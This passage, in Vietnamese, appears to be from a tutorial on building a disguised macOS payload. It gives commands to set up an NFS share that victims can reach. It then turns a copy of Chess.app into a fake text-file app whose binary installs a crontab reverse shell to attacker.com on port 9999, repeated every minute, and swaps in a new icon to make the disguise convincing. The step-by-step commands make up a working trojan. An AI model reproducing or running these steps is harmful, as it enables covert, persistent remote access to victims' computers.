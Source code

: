 `sudo apt-get install nfs-common nfs-kernel-server`

Sau khi cài xong thì NFS sẽ được khởi động, bạn cũng có thể check bằng lệnh sau:

`sudo systemctl status nfs-server`

Mình sẽ tạo một folder mới để chứa file payload.app.

`sudo mkdir -p /nfs/monthly`

Folder này sẽ được chia sẻ để máy tính nạn nhân dễ dàng truy cập được từ xa.

`sudo echo '/nfs/monthly *(insecure,rw,no_root_squash,anonuid=1000,anongid=1000,async,nohide)' >> /etc/exports`

Khởi động lại NFS server

`sudo systemctl restart nfs-server`

Bạn cũng có thể kiểm tra xem folder đã được chia sẻ chưa bằng cách gõ lệnh sau. Nếu kết quả hiện như dưới là đã thành công.

`~$ showmount -e <vps ip address>`

`Export list for <vps ip address>:`

`/nfs/monthly *`

Bước 2: Tạo file payload.app
----------------------------

Để tạo được payload này thì bạn cần sử dụng một Macbook, mở Terminal lên và gõ như sau để chuyển sang superuser:

`~$ sudo su`


Đặt biến $app để tiện theo dõi và sử dụng làm tên của file text chúng ta sẽ fake.

`~``# app='payload_name'`

Sao chép game cờ vào folder /tmp . Trong bài viết của tác giả thì tác giả có sử dụng với ứng dụng Calculator tuy nhiên không hiểu vì lí do gì mình không chạy được trên máy mình, thay vào đó mình sử dụng game Chess.

`~``# cp -r /Applications/Chess.app/ /tmp/"$app".app`

Giờ là lúc bạn copy các payload vào file:

`~``# printf '#!/bin/bash\n%s' "echo '* * * * *     bash -i >&amp; /dev/tcp/attacker.com/9999 0>&amp;1' | crontab -" >/tmp/"$app".app/Contents/MacOS/Chess`

Lệnh printf sẽ dẫn (|) một Bash one-liner vào lệnh crontab. Bash one-liner sẽ được lên lịch để thực hiện kết nối TCP mỗi 60 giây một lần tới cổng 9999 của attacker.com

Chmod để app có quyền chạy.

`~``# chmod +x /tmp/"$app".app/Contents/MacOS/Chess`

Thay icon cho ứng dụng Chess bằng lệnh bên dưới. Bạn có thể thay bất cứ icon nào miễn là nó có đuôi .icns

`~``# cp /path/to/text_file.icns /tmp/"$app".app/Contents/Resources/Chess.icns`
